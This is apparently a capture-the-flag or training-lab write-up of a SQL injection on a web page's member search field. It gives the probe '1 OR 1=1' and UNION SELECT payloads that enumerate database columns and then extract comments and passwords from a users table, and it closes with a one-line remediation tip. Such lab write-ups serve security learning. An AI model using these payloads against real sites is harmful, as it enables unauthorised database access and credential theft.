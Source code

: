 On `http://$IP/?page=member`. type '1 OR 1=1' into search field, this indicates it can be exploited by sql injection.

We look for the list of table and there columns using:

```
1 AND false UNION SELECT table_name, column_name FROM information_schema.columns
```

We craft the last injection where we try all the columns, and We did it.

```
1 AND false UNION SELECT Commentaire, countersign FROM users
```

---

> How to secure:
>
> -  Sanitize input.

